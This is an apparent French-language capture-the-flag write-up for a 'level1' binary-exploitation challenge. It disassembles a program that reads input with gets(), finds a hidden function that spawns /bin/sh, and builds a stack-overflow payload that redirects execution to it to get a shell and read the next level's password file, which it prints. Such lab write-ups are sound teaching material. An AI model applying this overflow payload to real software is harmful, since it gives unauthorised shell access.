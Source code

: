 # Level1

On observe un executable a la racine `level1`

```bash
$ ./level1
Hello World

$ python -c 'print "A"*100' | ./level1
Segmentation fault (core dumped)
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:   push   ebp
   0x08048481 <+1>:   mov    ebp,esp
   0x08048483 <+3>:   and    esp,0xfffffff0
   0x08048486 <+6>:   sub    esp,0x50
   0x08048489 <+9>:   lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level1`

```bash
$ scp -P 4242 -r level1@192.168.56.102:/home/user/level1/level1 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level1
```

_resultat sauvegarde dans [source.md](source.md)_

On peut remarquer que `undefined auStack80 [76]`, on peut essayer de remplir la place qu'y nous etes aloue

```bash
$ python -c 'print "A"*75' | ./level1

$ python -c 'print "A"*76' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*77' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*78' | ./level1
Segmentation fault (core dumped)
```

- `python -c 'print "A"*75'` est notre taille aloue maximum (75 + 1 = 76 pour le `\n` automatique du print de python)

- `76` a `79'`, on ecrit pardessus EBP sauvegarde

On remarque aussi, grace a `Cutter` qu'il y a une fonction `run` bien pratique colle a main qui fait un appel a `/bin/sh`

```bash
run ();
0x08048444      push    ebp
0x08048445      mov     ebp, esp
0x08048447      sub     esp, 0x18
0x0804844a      mov     eax, dword [stdout]
0x0804844f      mov     edx, eax
0x08048451      mov     eax, str.Good..._Wait_what
0x08048456      mov     dword [stream], edx
0x0804845a      mov     dword [nitems], 0x13
0x08048462      mov     dword [size], 1
0x0804846a      mov     dword [esp], eax
0x0804846d      call    fwrite
0x08048472      mov     dword [esp], str.bin_sh
0x08048479      call    system
0x0804847e      leave
0x0804847f      ret

int main (int argc, char **argv, char **envp);
0x08048480      push    ebp
0x08048481      mov     ebp, esp
0x08048483      and     esp, 0xfffffff0
0x08048486      sub     esp, 0x50
0x08048489      lea     eax, [s]
0x0804848d      mov     dword [esp], eax
0x08048490      call    gets
0x08048495      leave
0x08048496      ret
0x08048497      nop
```

On a une porte d'entre, plus une clef. Plus qu'a rassembler tout ca en meme temps

```bash
$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

_Hmm..._

Le programme se ferme avant que l'on ai le temps de faire quoi que ce soit.

Mais grace a `cat`, nous avons un moyen de retarder la fermeture de `level1`

```bash
$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Ctrl+D
Segmentation fault (core dumped)

level1:$ su level2
Password:

level2:$
```
